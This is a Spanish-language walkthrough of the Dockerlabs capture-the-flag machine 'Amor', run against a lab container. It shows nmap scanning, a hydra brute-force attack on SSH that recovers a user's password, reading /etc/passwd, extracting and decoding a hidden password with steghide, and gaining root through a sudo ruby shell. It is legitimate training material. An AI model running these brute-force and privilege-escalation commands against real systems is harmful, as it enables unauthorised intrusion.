# Writeup de la Máquina Amor de Dockerlabs

Lo primero que hago es realizar un escaneo de todos los puertos que tenga abiertos la máquina con la herramienta nmap. Una vez realizado el escaneo recojo los puertos abiertos con la utilidad extractPorts del fichero donde se ha guardado el escaneo de nmap. 

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
```bash
extractPorts allPorts
```


Teniendo los puertos copiados procedo a ejecutar un escaneo más profundo solo para los puertos 22 y 80 con nmap. 

```bash
sudo nmap -p22,80 -sCV 172.17.0.2 -oN targeted
```



Una vez terminado el escaneo veo que la version del servicio ssh esta al día, así que procedo a investigar el puerto 80 con la herramienta whatweb para listar las tecnologias que se estan utilizando.

```bash
whatweb http://172.17.0.2
```


Una vez listadas las tecnologias y viendo que no resalta ninguna procedo a realizar un reconocimiento de la web.



Mirando la página descubro dos usuarios, Juan y Carlota en un post sobre un despedido.



Teniendo dos posibles usuarios y sabiendo que el puerto 22 esta abierto decido probar a entrar por ssh por fuerza bruta con el diccionario rockyou.txt .

```bash
hydra -l carlota -P /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt ssh://172.17.0.2 -t 64
```




Con el usuario carlota consigo tener un resultado, con la contraseña babygirl, asi que procedo a conectarme por ssh.

```bash
ssh carlota@172.17.0.2
```



Una vez dentro miro formas de escalar priviegios, primero probando con permisos de sudoers y luego con binarios suid. De estos ninguno fue efectivo.

```bash
sudo -l
```

```bash
find / -perm -4000 2>/dev/null
```



Viendo que no encuentro la forma de escalar priviegios miro que usuarios hay en el sistema mirando el /etc/passwd , encuentro que hay otro usuario llamado oscar.

```bash
cat /etc/passwd
```



Viendo que no encuentro nada voy al directorio personal de carlota, revisando la carpeta encuentro una imagen en la ruta /home/carlota/Desktop/fotos/vacaciones , dentro de esta carpeta me creo un servidor http con python por el puerto 443 para ver la imagen y descargármela.

```bash
python3 -m http.server 443
```



Viendo que la imagen en cuestión no me aporta nada, así que decido mirar si tiene algún archivo oculto con la herramienta steghide.

```bash
steghide extract -sf imagen.jpg
```



Una vez utilizando la herramienta veo que ha sacado un archivo secret.txt , miro el archivo y parece un código de base64 así que procedo a decodearlo.


```bash
cat secret.txt
```

```bash
echo -n "ZXNxYWNhc2FkZXBpbnlwb24=" | base64 -d
```



Una vez decodeado pruebo a utilizar el texto que ha sacado como contraseña para hacer un movimiento lateral hacia el usuario oscar.

```bash
su oscar
```



Una vez como el usuario oscar miro a ver su carpeta personal y encuentro un mensaje en un archivo IMPORTANTE.txt, en este recuerda al usuario root de mirar el documento en su escritorio. Una vez visto esto procedo a mirar maneras para escalar privilegios. Lo primero que miro es los permisos de sudoers y en este veo que puedo ejecutar ruby como root.

```bash
sudo -l
```



Para escalar privilegios ejecuto el siguiente comando:

```bash
sudo ruby -e 'exec "/bin/sh"'
```



Una vez escalado privilegios miro el documento.

